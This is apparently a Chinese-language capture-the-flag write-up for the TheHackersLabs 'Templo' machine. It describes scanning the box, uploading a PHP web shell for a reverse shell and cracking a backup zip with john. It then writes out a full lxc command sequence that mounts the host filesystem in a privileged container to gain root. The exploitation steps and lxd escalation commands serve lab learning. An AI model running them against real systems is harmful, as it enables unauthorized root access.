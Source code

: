 # Templo

2025.03.03 https://thehackerslabs.com/templo/

[video](https://www.bilibili.com/video/BV1qm9vYKEc5/?spm_id_from=333.1387.homepage.video_card.click&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

web 首页无内容，在源码中发现 `NAMARI lo es todo solo debes probar`。

扫描发现 http://192.168.5.40/wow/clue.txt， 线索 Vamos al /opt ，提示去/opt，但是目前没进入到系统。

访问 NAMARI 目录，上面能上传文件和读取文件，再次对这个目录进行扫描，发现 http://192.168.5.40/NAMARI/uploads/ ， 尝试上传 php web shell 然后访问 http://192.168.5.40/NAMARI/uploads/8888.php 就在 kali 上得到了反弹的 shell。

根据前面线索，进入 /opt 发现 backup.zip，下载到 kali ，john 得到解码密码得到字符串 `6rK5£6iqF;o|8dmla859/_` 应该是 rodgar 用户的密码。

切换用户拿到 user flag：

```
rodgar@TheHackersLabs-Templo:~$ cat user.txt
3e6ae8a53cc7e954a8433af59920dc7e
```

当前用户在 lxd 组中可以利用 lxd 权限提权（不要将镜像文件保存到/tmp 目录，会提示不存在，保存到 rodgar 的 home 目录就可以）：

```
find / -name lxc 2>/dev/null

cd ~
/usr/sbin/lxc image import alpine-v3.13-x86_64-20210218_0139.tar.gz --alias lxcimage
/usr/sbin/lxc image list

/usr/sbin/lxc storage create pool dir
/usr/sbin/lxc profile device add default root disk path=/ pool=pool
/usr/sbin/lxc init lxcimage ignite -c security.privileged=true
/usr/sbin/lxc config device add ignite trenches disk source=/ path=/mnt/root recursive=true
/usr/sbin/lxc start ignite
/usr/sbin/lxc exec ignite /bin/sh
```

最后拿到了 root flag：

```
cd /mnt/root
cd root
cat root.txt
63a9f0ea7bb98050796b649e85481845
```
